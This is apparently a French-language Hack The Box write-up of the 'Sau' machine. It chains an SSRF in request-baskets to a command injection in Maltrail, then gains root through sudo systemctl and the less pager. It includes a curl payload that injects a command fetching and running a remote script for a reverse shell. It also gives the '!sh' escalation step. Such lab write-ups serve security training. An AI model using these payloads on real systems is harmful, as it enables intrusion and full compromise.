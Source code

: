 +++
title = "HTB - Sau"
date = "2024-01-09"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hackthebox", "sau", "ssrf", "command injection", "gtfobins"]
keywords = ["", ""]
description = "Resume of Sau from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Sau

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.167.17
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION      
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown           
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:23:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close       
|     Request     
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|     Content-Length: 27    
|     href="/web">Found</a>.        
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|_    Content-Length: 0
```

## User exploit
Il y a deux vulnérabilités a exploiter afin d'obtenir un shell en tant que `User`.
Dans un premier temps `request-baskets v1.2.1` est vulnérable a une faille de type SSRF (Server Side Request Forgery). 

> Une faille de type SSRF permet d'effectuer des requêtes malicieuses par l'entremise du server Web vers un endroit arbitraire.

Cette vulnérabilité se situe dans les endpoints de l'API suivants au niveau du paramètre `forward_url`.
- /api/baskets/{name}
- /baskets/{name}

Lorsque le `Basket` est créé, il est possible de modifier ledit paramètre et d'y inséré une adresse IP locale. 

### Code vulnérable
- https://github.com/darklynx/request-baskets/tree/v1.2.1
```go
// https://github.com/darklynx/request-baskets/blob/a36e2ae402204050ce42a78d750785b4b10e7958/baskets.go#L18C1-L25C2

// BasketConfig describes single basket configuration.
type BasketConfig struct {
	ForwardURL    string `json:"forward_url"`
	ProxyResponse bool   `json:"proxy_response"`
	InsecureTLS   bool   `json:"insecure_tls"`
	ExpandPath    bool   `json:"expand_path"`
	Capacity      int    `json:"capacity"`
}
```
```go
// https://github.com/darklynx/request-baskets/blob/9e4107228f6b409ccd3c3d7371b0e0fd5a5798a1/baskets.go#L152

func (req *RequestData) Forward(client *http.Client, config BasketConfig, basket string) (*http.Response, error) {
	forwardURL, err := url.ParseRequestURI(config.ForwardURL)
	if err != nil {
		return nil, fmt.Errorf("invalid forward URL: %s - %s", config.ForwardURL, err)
	}

	// expand path
	if config.ExpandPath && len(req.Path) > len(basket)+1 {
		forwardURL.Path = expandURL(forwardURL.Path, req.Path, basket)
	}

	// append query
	if len(req.Query) > 0 {
		if len(forwardURL.RawQuery) > 0 {
			forwardURL.RawQuery += "&" + req.Query
		} else {
			forwardURL.RawQuery = req.Query
		}
	}
[...]
```
Lorsque le lien du panier est visité, la vulnérabilité est activée. 

Basé sur le résultat du scan nmap, il est possible de constater qu'une application est active sur le port `8338/tcp` mais que le trafic est filtré.
Il est donc possible d'effectuer des requêtes vers cette application grâce à la SSRF. Quelques requêtes suffises afin d'identifier que l'application active est `mailtrail`.

![](/img/htb/sau/request_baskets_proxy_configuration.png)

La version du logiciel est `Mailtrail (v0.53)`. Cette version est vulnérable a une exécution de code au niveau du système d'exploitation (OS Command injection).

> Une vulnérabilité de type OS Command injection permet de faire exécuter du code arbitraire par le système d'exploitation. 

La vulnérabilité se situe au niveau de la fonction `subprocess.check_output` dans le paramètre `params.get("username")` dans le fichier `mailtrail/core/http.py`. 

```python
if not IS_WIN:
    try:
        subprocess.check_output(["logger", "-p", "auth.info", "-t", "%s[%d]" % (NAME.lower(), os.getpid()), "%s password for %s from %s port %s" % ("Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1])], stderr=subprocess.STDOUT, shell=False)
    except Exception:
        if config.SHOW_DEBUG:
            traceback.print_exc()

return content
```
En combinant les deux vulnérabilités, il est possible d'obtenir un accès utilisateur sur la boxe.

```bash
#!/bin/bash

curl -k 'http://10.129.153.197:55555/qp9dxnt' --data 'username=;`/bin/curl 10.10.14.113/rev.sh | bash`'
```
User --> puma
## Root exploit
L'utilisateur `puma` a la permission d'exécuter une commande avec des droits de super utilisateur 

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Voici une explication de la vulnérabilité

> *A vulnerability was found in the systemd package. The systemd package does not adequately block local privilege escalation for some Sudo configurations, for example, plausible sudoers files, in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This issue presents a substantial security risk when running systemctl from Sudo because less executes as root when the terminal size is too small to show the complete systemctl output.*

En effectuant plusieurs requêtes vers le service `Maltrail`, `pager`, un binaire qui permet de visionner du contenu au niveau d'un terminal Linux sera exécuté.

`sudo /usr/bin/systemctl status trail.service`

`pager` pointe vers le binaire `less`. En exécutant la commande `!sh`, on obtient un shell en tant que `root`.

![](/img/htb/sau/systemctl_status_less_lpe.png)

## Resources:

| Hyperlink                                                        | Info                           |
| ---------------------------------------------------------------- | ------------------------------ |
| https://notes.sjtu.edu.cn/s/MUUhEymt7                            | Exploit request-baskets v1.2.1 |
| https://github.com/advisories/GHSA-58g2-vgpg-335q                | Exploit request-baskets v1.2.1 |
| https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ | Exploit MailTrail v0.53        |
| https://bugzilla.redhat.com/show_bug.cgi?id=2175611              | Exploit systemctl              |
| https://gtfobins.github.io/gtfobins/systemctl/                   | GTFObins                       |